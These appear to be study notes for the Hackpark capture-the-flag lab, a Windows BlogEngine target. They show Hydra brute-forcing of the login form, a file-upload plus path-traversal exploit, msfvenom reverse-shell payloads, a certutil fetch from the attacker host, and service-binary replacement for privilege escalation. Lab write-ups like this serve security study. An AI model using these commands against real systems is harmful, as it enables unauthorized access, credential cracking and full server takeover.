

# Hackpark

> Converted from cybersecurity DOCX notes into a structured markdown outline and study reference.



## Using Hydra to brute-force a login


Hydra is a parallelized, fast and flexible login cracker.

Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

We need to find a login page to attack and identify what type of request the form is making to the webserver.

Typically, web servers make two types of requests, a GET request which is used to request data from a webserver and a POST request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through Burp Suite (other HTTP methods can be found here).

### What request type is the Windows website login form using?

:At the website, submit known wrong credentials and receive the output in Burp Suite

```text
#######################################################################
```

POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1

Host: 10.10.171.54

Content-Length: 555

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.171.54

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://10.10.171.54/Account/login.aspx?ReturnURL=/admin/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Connection: close

__VIEWSTATE=q9QPbECRnTF0AN%2FlzEKADVCYNqUMNdYcRt74QsYyAsvjTmee3EZ5BNS9aOdCUrYZ0eP0fFO5nMUeVzOJCNHq%2Fmv38itXMcNUeYQnv30PkEZPYtXbsR8gj47YtIs%2BFCci0yiLmeD%2F1oNVA3V3u6kV%2Br15nmRuWl85CAoSPfe%2Bl7FI06jC&__EVENTVALIDATION=X6GWpFgCvHZY9qRAoLye1w5u%2FDdYYGCdLdwnpzesb0XAnabwtn9KWsqbbJnwTyVAbiAmE6SXVDkcfqt5fMH1gekGZQ0zB2y5JpAWw3dzAFLEspmYxZFa8Qcq2UBVAMoqcpG%2BxGCMpcRkQYnruMjMR5eN%2BvaPfdo1zvqNYympsngIewid&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=password&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in

```text
####################################################
```

Now we know the request type and have a URL for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

```text
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

Guess a username, choose a password wordlist and gain credentials to a user account

```text
:>hydra -l admin -P ./usr/share/wordlists/rockyou.txt 10.10.171.54 -V http-form-post '__VIEWSTATE=q9QPbECRnTF0AN%2FlzEKADVCYNqUMNdYcRt74QsYyAsvjTmee3EZ5BNS9aOdCUrYZ0eP0fFO5nMUeVzOJCNHq%2Fmv38itXMcNUeYQnv30PkEZPYtXbsR8gj47YtIs%2BFCci0yiLmeD%2F1oNVA3V3u6kV%2Br15nmRuWl85CAoSPfe%2Bl7FI06jC&__EVENTVALIDATION=X6GWpFgCvHZY9qRAoLye1w5u%2FDdYYGCdLdwnpzesb0XAnabwtn9KWsqbbJnwTyVAbiAmE6SXVDkcfqt5fMH1gekGZQ0zB2y5JpAWw3dzAFLEspmYxZFa8Qcq2UBVAMoqcpG%2BxGCMpcRkQYnruMjMR5eN%2BvaPfdo1zvqNYympsngIewid&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=password&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:UserName=^USER^&Password=^PASS^:F=failed'
```

- **Answer:** ) 1qaz2wsx

Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the http-post-form that we used above).

However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more.

## Compromise the Server

In this task, you will identify and execute a public exploit (from exploit-db.com) to get initial access on this Windows machine!

Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

## Attack

- 

- First, we set the TcpClient address and port within the method below to

- our attack host, who has a reverse tcp listener waiting for a connection.

- Next, we upload this file through the file manager. In the current (3.3.6)

- version of BlogEngine, this is done by editing a post and clicking on the

- icon that looks like an open file in the toolbar. Note that this file must

- be uploaded as PostView.ascx. Once uploaded, the file will be in the

- /App_Data/files directory off of the document root. The admin page that

- allows upload is:

- 

- http://10.10.10.10/admin/app/editor/editpost.cshtml

- 

- 

- Finally, the vulnerability is triggered by accessing the base URL for the

- blog with a theme override specified like so:

- 

- http://10.10.10.10/?theme=../../App_Data/files

## Windows Privilege Escalation With Metasploit

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities.

We will then use this gathered information to exploit the system and become the Administrator.

## Answer the questions below

Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom. If you don't know how to do this, I suggest checking out the Metasploit module!

## # Generate Reverse Shell And Make Executable

```text
:>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

## #start Server On Attacker

```text
:>python3 -m http.server <port>
```

## #transfer File From The Target

```text
:>certutil.exe -urlcache -split -f "http://10.2.29.130:7575/crazyshell.exe"
```

## #SET UP Metasploit

```text
:>msfconsole
:>use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp
```

## >set LHOST 10.2.29.130

## >set LPORT 8585

Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!

You can run Metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the windows-exploit-suggester script and quickly identify any obvious vulnerabilities.

### What is the OS version of this windows machine?

```text
:> sysinfo
```

Further enumerate the machine.

### What is the name of the abnormal service running?

```text
:> ps
```

- The answer is WindowsScheduler but that doesn't actully apper in the list… so there is assumption that must be made. The results to list wscheduler.exe

### What is the name of the binary you're supposed to exploit?

- Looking through many logs to find binary /service which is executed regularly

- **Answer:** Message.exe

### Using this abnormal service, escalate your privileges!

- create a new reverse shell

```text
:>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe-service -o Message.exe
```

### What is the user flag (on Jeffs Desktop)?

### What is the root flag?

## Windows Privilege Escalation Without Metasploit
